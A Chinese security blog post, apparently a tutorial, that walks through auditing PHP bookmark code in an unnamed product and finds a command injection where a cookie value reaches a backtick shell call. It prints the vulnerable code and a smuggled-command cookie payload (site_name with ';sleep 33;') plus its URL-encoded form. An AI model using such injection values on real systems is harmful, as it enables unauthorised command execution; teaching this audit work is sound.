 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3MzUxNDQwNg==&mid=2247483998&idx=1&sn=1fc9a29ab6682685a8fa8f63c3c5fe97

#  手把手教你学会代码审计之命令注入漏洞  
原创 uuwan  SecurityBug   2025-07-18 16:01  
  
# 本文由作者uuwan原创，禁止转载。      请点击文末#代码审计标签查看合集，或者关注公众号点击底部【源码审计】子菜单，如果对您有帮助还请点赞、在看、评论、转发、关注、打赏哦，您的互动就是我更新最大的动力！  
  
  
    已知X产品bookmark即书签功能中存在命令注入漏洞，但是无法得知攻击者的攻击方式。  
  
    登录X产品操作系统后台  
  

```
find / -name &#34;*bookmark*&#34;
```

  
    找到了关键文件bookmark.php和paaa.php  
  
    下文仅展示关键代码，可以不看后面的解析，给自己五分钟的时间分析一下命令注入漏洞的位置。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25KuiaqKRhS6wgDF15zERia7nyhNjcIQKMicaqxLT5PiaZCaeVEqQ9doGH0EwCA/640?wx_fmt=png&from=appmsg "")  
  

```
bookmark.php
<?php
    include_once &#34;bookmark_db.php&#34;;
    require_once(dirname(__FILE__).'/'.&#34;../paaa.php&#34;);
    $dbname = $_COOKIE['site_name'];
    $uname = $_COOKIE['user_name'];
    $role_names = $_COOKIE['roles'];
    $action = $_REQUEST['action'];
    if(!$dbname || !$uname || !$action){
        exit(&#34;action is null!&#34;);
    }
    $cmd = 'bookmark status'; 
    $mycli = new cli(); 
    //此处调用了cmd_direct函数
    $cli_res = $mycli->cmd_direct($cmd, $dbname);
    $dbname  = &#34;auth_&#34; . $dbname;
    $db_conn = new MP\DB\BookMark_db($dbname);


if($action == 'add') {
        $url = $_POST['url'];
        $type = $_POST['type'];
        $desc = $_POST['description'];
        if(!$url || !$desc){
            exit(&#34;url/description is null!&#34;);
        }
        header(&#34;Content-Type: text/html&#34;);
        if($db_conn->sql_inj($desc) || $db_conn->sql_inj($url) || !is_numeric($type)) {
            echo &#34;Fail to add the bookmark!&#34;;
        }
        $res = $db_conn->addBookMarkCheck($uname,$url,$type,$desc);
        if($res){
            $cmd = 'sync sql &#34;insert into tbl_bookmark(url,type,user_name,description) values(&'.
                $url.'&,'.$type.',&'.$uname.'&,&'.$desc.'&)&#34;';
            $mycli = new cli();
            //此处调用了cmd_direct函数
            $cli_res = $mycli->cmd_direct($cmd , $_COOKIE['site_name']);
            if($cli_res[&#34;result&#34;]){
                echo &#34;add successfully!&#34;;
                echo &#34;<script>history.go(-2);</script>&#34;;
            } else {
                echo &#34;Fail to add the bookmark!&#34;;
            }
        }else{
            echo &#34;Fail to add the bookmark! One user only can own 100 bookmarks.&#34;;
        }
    } else {
        exit(&#34;invalid action&#34;);
    }
?>
```

  

```
paaa.php
<?php
    function cmd_direct($cmd, $shell)
    {
        global $debugLog ;
        global $logFile;
        if ($debugLog) {
            $t_fileRef = fopen($logFile,'a');
            fwrite($t_fileRef, &#34;\t&#34; . $cmd . &#34;\n&#34;);
        }
        if(empty($shell)||!isset($shell)){
            $shell = &#34;global&#34;;
        }
        $f_eop = chr(252); 
        $cmd .= $f_eop;
        $cmd = escapeshellarg($cmd);
        //反引号`在php中可以执行命令
        $output = `/ca/bin/backend -s &#34;$shell&#34;  -c $cmd`;
        $output = trim($output, $f_eop);


        if ($debugLog) {
            $t_fileRef = fopen($logFile,'a');
            fwrite($t_fileRef, &#34;\t&#34; . $output . &#34;\n&#34;);
        }
        $output = backend_format($output);
        $json = json_decode($output,true);
        if(!$json){
            return $output;
        }
        return foreach_trim($json);
    }
?>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25KuiaVRtGwQWURtd7a043PNjRVXflKHpcLDJhwXJVecr2B2apFxlu1HiakRg/640?wx_fmt=png&from=appmsg "")  
  
    此处我们开始解析。  
  
    我们可以看到paaa.php中有一个明显的漏洞。  
  

```
反引号``在php中可以执行命令,也是命令注入代码审计的关键函数
传参$cmd和参数$shell都可以传入反引号中被执行。
也就是说这个函数cmd_direct可以进行命令注入。
```

  

```
function cmd_direct($cmd, $shell)
{
    $output = `/ca/bin/backend -s &#34;$shell&#34;  -c $cmd`;
}


```

  
    再看下bookmark.php中有两处调用了cmd_direct()  

```
第15行     
$cli_res = $mycli->cmd_direct($cmd, $dbname);
第36行
if($action == 'add') 
{
    $cli_res = $mycli->cmd_direct($cmd , $_COOKIE['site_name']);
}


经过分析第15行处的命令注入更容易触发。
这里是一个经验点，这处的行数靠前，经过的代码少。
所以保证了它更容易被执行到。
我们取出前15行进行分析。


此处是一个require_once函数，
它可以把paaa.php中的代码包含在bookmark.php中
通俗的来说，也就是此时在bookmark.php中
可以调用paaa.php的全部代码包含参数和函数
聪明的你一定意识到了，正是因为有这个require_once函数
我们才可以在bookmark.php中调用paaa.php中的cmd_direct()函数
从而形成命令执行。


require_once(dirname(__FILE__).'/'.&#34;../paaa.php&#34;);
$dbname = $_COOKIE['site_name'];
//$_COOKIE获取cookie中参数site_name的值
$uname = $_COOKIE['user_name'];
$role_names = $_COOKIE['roles'];
//$_REQUEST获取cookie、get、post请求中参数action的值
$action = $_REQUEST['action'];


要确保代码能执行到cmd_direct()，那这块的if条件一定不能满足
如果满足了，bookmark.php的执行就会在exit处跳出结束。
也就是说dbname和uname和action一定得有参数值
if(!$dbname || !$uname || !$action){
        exit(&#34;action is null!&#34;);
}
$cmd = 'bookmark status'; 
$mycli = new cli(); 
//此处调用了cmd_direct函数
$cli_res = $mycli->cmd_direct($cmd, $dbname);
```

  
我们用burpsuite抓住一个正常的编辑书签的请求。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuiagmmk5TLloWRO5JsyZElticzpgdUTibibtlDg6jXIkTHT4vrL8vZGVUdtg/640?wx_fmt=png&from=appmsg "")  
  
    可以看到此时action是有值的，但是cookie中并没有参数user_name和参数site_name  
  
    所以正常发送的请求肯定会因为不满足存在参数值，而退出exit，进而无法走到cmd_direct函数中。  
  
    那很简单了！  
  
    我们在cookie中增加两个参数user_name=aaa;site_name=bbb;  

```
$cmd = 'bookmark status'; 
$mycli = new cli(); 


//此时我们成功调用了cmd_direct函数
//cmd的值是固定的bookmark status
//那么我们只能在dbname中进行命令注入


$cli_res = $mycli->cmd_direct($cmd, $dbname);
进入cmd_direct函数
 function cmd_direct($cmd, $shell)
{
    $output = `/ca/bin/backend -s &#34;$shell&#34;  -c $cmd`;
}


$dbname = $_COOKIE['site_name'],我们只需要构造site_name=&#34;;sleep 33;&#34;
`/ca/bin/backend -s &#34;$shell&#34;  -c $cmd`;
就变成下文的样子
`/ca/bin/backend -s &#34;&#34;;sleep 33;&#34;&#34;  -c bookmark status`;
这样子就可以成功执行命令啦！
实际操作中我们对site_name的值进行url编码
因为cookie的值在后端后被自动url解码
site_name=%22%3bsleep+3322%3b
```

  
最终的攻击包如下图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuia4NibbQHAIvrF3ibsXSC6Ft3FHwTHjibUeptdv6S9GV2VqP3fkic2jaYUibg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OLGsebxiaIXRBclWI3gcLKWxBJXd25Kuiac3RycoFZ8TGYIfiaAymM6TSazVFmkUdCWibYHPbvt6lU6ZmWSzIJYu6A/640?wx_fmt=png&from=appmsg "")  
  
这就是复现命令注入的全过程啦  
  
是不是很简单呢。  
  
[#代码审计]()  
 [#漏洞教学]()  
  
  
